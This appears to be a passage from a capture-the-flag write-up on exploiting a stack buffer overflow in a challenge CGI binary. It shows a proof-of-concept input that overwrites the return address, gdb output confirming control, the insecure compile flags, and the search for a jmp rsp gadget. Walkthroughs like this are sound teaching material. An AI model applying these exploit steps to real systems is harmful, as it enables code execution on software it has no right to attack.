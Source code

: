 ```
$ irb
3.1.3 :002 > File.write('/tmp/poc.bin', ('A'*168)+('B'*8))
 => 176
```

```
$ CONTENT_LENGTH=176 gdb -q ./auth.cgi
Reading symbols from ./auth.cgi...
(gdb) run < /tmp/poc.bin
Starting program: /home/ron/projects/ctf/ctf-2024/challenges/cant-give-in/challenge/src/auth.cgi < /tmp/poc.bin
Content-Type: text/plain


Program received signal SIGSEGV, Segmentation fault.
0x000000000040175e in main (argc=1, argv=0x7fffffffdad8) at auth.c:32
warning: Source file is more recent than executable.
32      }
(gdb) x/xwg $rsp
0x7fffffffd918: 0x4242424242424242
```

Aha! Now we know how to overwrite the return address. But what do we put there?

## Jumping to the stack

The first binary is compiled with all the fun flags:

```makefile
CFLAGS?=-Wall -fno-stack-protector -no-pie -z execstack -z norelro -static -g

all: auth.cgi

auth.cgi: auth.c
	gcc ${CFLAGS} -o auth.cgi auth.c

clean:
	rm -f *.o auth.cgi
```

Thanks to `-z execstack`, an exploit can run code straight from the stack! The easiest way to do that is to find a `jmp rsp` or `call rsp` gadget. I always forget the mnemonics, so I use a simple assembly script:

```asm
bits 64

call rsp
jmp rsp
```

That I assemble then disassemble:

```
$ nasm -o test.bin test.asm
$ ndisasm -b64 test.bin
00000000  FFD4              call rsp
00000002  FFE4              jmp rsp
```
